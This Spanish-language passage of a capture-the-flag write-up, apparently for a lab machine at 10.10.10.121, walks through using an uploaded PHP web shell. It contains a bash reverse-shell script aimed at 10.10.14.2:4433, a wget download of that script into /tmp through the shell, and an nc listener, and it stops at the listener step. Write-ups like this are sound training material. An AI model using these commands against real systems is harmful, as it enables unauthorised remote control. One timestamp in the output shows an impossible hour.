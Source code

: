 ```bash
❱ curl "http://10.10.10.121/support/uploads/tickets/1ce35b9e8b7b6d3fd36c2ab9c8a52156.php?xmd=hostname;id" 
help
uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
```

Perfectooo, ahora si tenemos control con respecto a que comando ejecutamos, generemos una reverse Shell:

Intentando con `bash -i >& ...` no logramos ejecutarlo directamente, también vemos que `cURL` no existe como binario (`which+curl`), peeeero si existe `wget`:

> Tendremos que agregar los `+` para que los tome como espacios si es que ejecutamos todo desde la `bash`.

```bash
❱ curl "http://10.10.10.121/support/uploads/tickets/1ce35b9e8b7b6d3fd36c2ab9c8a52156.php?xmd=which+wget" 
/usr/bin/wget
```

Así que podemos probar a subir un archivo al sistema con código `bash` y posteriormente ejecutarlo:

```bash
❱ cat rere.sh 
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.2/4433 0>&1
```

Levantamos un servidor web con **Python**:

```bash
❱ python3 -m http.server
```

Subimos archivo `.sh` con **wget** al directorio `/tmp`:

```bash
# wget http://10.10.14.2:8000/rere.sh -O /tmp/rere.sh
❱ curl "http://10.10.10.121/support/uploads/tickets/1ce35b9e8b7b6d3fd36c2ab9c8a52156.php?xmd=wget+http://10.10.14.2:8000/rere.sh+-O+/tmp/rere.sh" 
```

Validamos que exista:

```bash
# ls -la /tmp/rere.sh
❱ curl "http://10.10.10.121/support/uploads/tickets/1ce35b9e8b7b6d3fd36c2ab9c8a52156.php?xmd=ls+-la+/tmp/rere.sh" 
-rw-r--r-- 1 help help 133 Jul 21 25:25 /tmp/rere.sh
```

Ahora, nos ponemos en escucha por el puerto que pusimos en el archivo, en mi caso el **4433**:

```bash
❱ nc -lvp 4433
```
